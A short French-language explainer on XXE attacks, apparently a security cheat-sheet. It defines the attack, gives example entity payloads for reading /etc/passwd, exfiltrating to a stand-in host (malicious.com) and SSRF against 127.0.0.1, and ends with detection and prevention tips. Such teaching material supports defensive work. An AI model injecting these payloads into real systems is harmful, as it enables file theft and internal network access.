 # XXE (External XML Entity)

## Description
Une attaque XXE (XML External Entity) survient lorsqu'un analyseur XML mal configuré permet d'inclure des entités externes dans des documents XML. Cela peut conduire à des fuites de fichiers, des exfiltrations de données sensibles, voire l'exécution de commandes malveillantes.

## Exemples d'attaque XXE
1. **Lecture de fichier** :  
   En intégrant une entité externe pour lire `/etc/passwd`, un attaquant pourrait injecter la charge suivante dans un document XML :  
   `<! DOCTYPE foo [<! ENTITY xxe SYSTEM "file:///etc/passwd">]>`  
   Puis inclure cette entité dans une balise du XML :  
   `<foo>& xxe;</foo>`

2. **Exfiltration de données** :  
   Une entité externe peut être configurée pour envoyer des données vers un serveur externe :  
   `<! ENTITY xxe SYSTEM "http://malicious.com/evil">`  
   Ensuite, l’injection de `& xxe;` dans une requête XML transmettra les données.

3. **Attaque SSRF via XXE** :  
   Les entités XML peuvent également être utilisées pour forcer le serveur à faire des requêtes vers des ressources internes :  
   `<! ENTITY xxe SYSTEM "http://127.0.0.1:8080/internal-service">`

## Techniques de détection
1. **Payloads courants** : Utilisez des entités externes et validez si la réponse inclut les données du serveur.
2. **Fuzzing** : Injectez des entités XML pour tester la réaction de l'application et détecter les réponses avec fuite d’information.

## Conseils de prévention
1. Désactivez la résolution des entités externes dans les analyseurs XML.
2. Utilisez des bibliothèques XML sécurisées et suivez les recommandations de sécurité.

